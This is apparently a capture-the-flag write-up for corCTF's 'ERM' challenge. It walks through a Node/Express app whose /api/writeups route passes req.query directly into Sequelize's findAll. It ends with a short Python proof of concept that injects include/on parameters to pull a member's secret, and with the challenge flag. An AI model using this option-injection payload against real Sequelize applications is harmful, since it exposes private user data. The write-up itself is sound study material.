

# ERM Challenge
## Recon

As always, I first started by reviewing the Dockerfile but didn't find anything interesting. The next step was to check the package.json file to see if any of the packages used in this Node app were outdated. At the time of the CTF, all packages were up to date.

When examining the app.js file, I found it rather anticlimactic to see that the main app was only 50 lines of code. I also noticed that the routes were organized into backend and frontend handlers.

### Backend routes:
```js
app.get("/api/members", wrap(async (req, res) => {
    res.json({ members: (await db.Member.findAll({ include: db.Category, where: { kicked: false } })).map(m => m.toJSON()) });
}));

app.get("/api/writeup/:slug", wrap(async (req, res) => {
    const writeup = await db.Writeup.findOne({ where: { slug: req.params.slug }, include: db.Member });
    if (!writeup) return res.status(404).json({ error: "writeup not found" });
    res.json({ writeup: writeup.toJSON() });
}));

app.get("/api/writeups", wrap(async (req, res) => {
    res.json({ writeups: (await db.Writeup.findAll(req.query)).map(w => w.toJSON()).sort((a,b) => b.date - a.date) });
}));
```

### Frontend routes:
```js
app.get("/writeup/:slug", wrap(async (req, res) => {
    res.render("writeup");
}));

app.get("/writeups", wrap(async (req, res) => res.render("writeups")));

app.get("/members", wrap(async (req, res) => res.render("members")));

app.get("/", (req, res) => res.render("index"));

app.use((err, req, res, next) => {
    console.log(err);
    res.status(500).send('An error occurred');
});
```
I also noticed that instead of raw SQL queries, the app was using Sequelize ORM to construct SQL queries. One interesting observation was that data input seemed to occur only when constructing these queries, specifically in:
```js
app.get("/api/writeup/:slug", wrap(async (req, res) => {
    const writeup = await db.Writeup.findOne({ where: { slug: req.params.slug }, include: db.Member });
    if (!writeup) return res.status(404).json({ error: "writeup not found" });
    res.json({ writeup: writeup.toJSON() });
}));

app.get("/api/writeups", wrap(async (req, res) => {
    res.json({ writeups: (await db.Writeup.findAll(req.query)).map(w => w.toJSON()).sort((a,b) => b.date - a.date) });
}));
```

I wanted to see if we could somehow escape the SQL query being made when entering the slug of the writeup, specifically the `where` part of the model method. I found an issue that utilized replacements and the `where` parameter to escape the query, but [this vulnerability](https://github.com/advisories/GHSA-wrh9-cjv3-2hpw) was patched in a much earlier version. I thought perhaps there was an open issue discussing another unpatched vulnerability, but this approach led nowhere.

Focusing on the second interesting API route, I found `req.query` to be very intriguing. It essentially gets the query parameters, maps them to JSON, and uses the JSON as the query.

According to [Express.js documentation](https://expressjs.com/en/api.html#req.query), `req.query` is an object containing a property for each query string parameter in the route. This object is passed to the `findAll` method of the model. Knowing we control the parameters of the `findAll` method function, the next step was to understand the database structure and how to gain access to the user with the flag.

In the db.js file, we learn about the `Member`, `Writeup`, and `Category` tables. The user with the flag is located in the `Member` table. Conveniently, the `Member` table and the `Writeup` table have a one-to-one relationship, indicated by `Writeup.belongsTo(Member)`. You can read more about relationships in the [Sequelize documentation](https://sequelize.org/docs/v6/core-concepts/assocs/).

Since there is a one-to-one relationship between `Member` and `Writeup`, we can retrieve all information associated with the `Writeup` table from the `Member` table. However, the user we want to access isn't associated with the `Writeup` table.

## Exploitaion

To test payloads faster, I made some quick changes to the app.js:

```js
app.get("/api/writeups", wrap(async (req, res) => {
    console.log(req.query);
    res.json({ writeups: (await db.Writeup.findAll(req.query)).map(w => w.toJSON()).sort((a,b) => b.date - a.date) });
}));
```

And in db.js:

```js
const sequelize = new Sequelize({
    dialect: 'sqlite',
    storage: 'erm.db',
    logging: console.log
});
```
These changes allowed me to log all queries constructed by Sequelize and how the query parameters were being parsed. I tried various payloads, but none worked. The payloads involved using [`include{association: tableAssociatedTo, where: }`](https://sequelize.org/docs/v6/advanced-association-concepts/eager-loading/#fetching-all-associated-elements) parameters, but I couldn't find a way to append the `where` parameter's value to the query using OR instead of AND. Passing [`sequelize.literal()`](https://sequelize.org/docs/v6/other-topics/sub-queries/) also failed as `req.query` parsed it as a string.

Taking a step back, I searched for anyone who tried including information from related but unassociated tables. I found a goldmine, [a post on GitHub](https://github.com/sequelize/sequelize/issues/5385) where someone had the same exact problem.


All that was left was to test the query. It worked!



The flag `corctf{erm?_more_like_orm_amiright?}`

My Proof of Concpet:
```python
import requests, json
re =requests.get('https://erm.be.ax/api/writeups?include[association]=Member&include[on][username]=goroo')
print(json.loads(re.text)['writeups'][0]['Member']['secret'])
```

## Conclusion
This challenge took longer than I expected, but it was quite interesting. It taught me a lot about reconnaissance and thinking outside the box. Initially, I never thought I would use experimental features not even mentioned in the docs.